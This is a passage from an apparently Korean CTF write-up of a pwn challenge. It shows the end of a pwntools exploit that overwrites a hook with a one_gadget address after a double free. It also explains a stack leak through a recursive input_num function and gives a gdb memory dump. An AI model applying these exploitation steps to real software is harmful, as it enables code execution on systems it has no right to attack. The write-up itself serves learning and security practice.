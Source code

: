 ```python
sen(0x60,"a"*0x60)
sen(0x60,"a"*0x60)
sen(0x60,"a"*3 + p64(one)*4 + "c"*(0x60 - 35))

t.interactive()
```

익스 코드 

leak은 몇 시간동안 삽질하다가 겨우 되었다.. b를 지우고나서 다시 뭐로 찾아야 저게 나오나 했는데 null이었음 거의 얻어걸렸다. 그 다음 더블 프리를 만들기 위해서 같은 방법으로 free를 해줘야 한다. 마지막으로 hook 덮기

근데 이것도 스택을 왜 안쓰지 하고 찾아보니 실제 풀이들은 스택을 이용해서 풀었더라.. 기왕 찾아본 김에 스택으로도 풀어봤다.

스택 릭은 전혀 생각도 못하고 있었는데..

```c
__int64 input_num()
{
  __int64 result; // rax
  char *endptr; // [rsp+8h] [rbp-50h]
  char nptr; // [rsp+10h] [rbp-48h]
  unsigned __int64 v3; // [rsp+48h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  fread_((__int64)&nptr, 48, 1);
  result = strtol(&nptr, &endptr, 0);
  if ( endptr == &nptr )
  {
    __printf_chk(1LL, "%s is not a valid number\n", &nptr);
    result = input_num();
  }
  __readfsqword(0x28u);
  return result;
}
```

여기서 릭이 되어 버린다. 숫자가 아닌 문자를 넣으면 에러가 뜨면서 다시 이 녀석이 재 호출 되면서 새로운 스택 프레임이 생기게 된다.(48개를 꽉채우면 널바이트도 들어가지 않는다) 

```c
gdb-peda$ x/32gx 0x7ffc644e08e0 - 0x60
0x7ffc644e0880:	0x6161616161616161	0x6161616161616161
0x7ffc644e0890:	0x6161616161616161	0x6161616161616161
0x7ffc644e08a0:	0x6161616161616161	0x6161616161616161
0x7ffc644e08b0:	0x00007ffc644e08e0	0x59f979be216a5000
0x7ffc644e08c0:	0x00007ffc644e08e0	0x0000000000400abb
0x7ffc644e08d0:	0x000000000000000a	0x00007ffc644e08e0
0x7ffc644e08e0:	0x6161616161616161	0x6161616161616161
0x7ffc644e08f0:	0x6161616161616161	0x6161616161616161
0x7ffc644e0900:	0x6161616161616161	0x6161616161616161
0x7ffc644e0910:	0x0000000000000000	0x59f979be216a5000
```

왜 저 포인터가 저렇게 추가 되는지는 잘 모르겠으나.. 신기했다. 아무튼 2번의 에러를 내면 스택 릭이 된다.
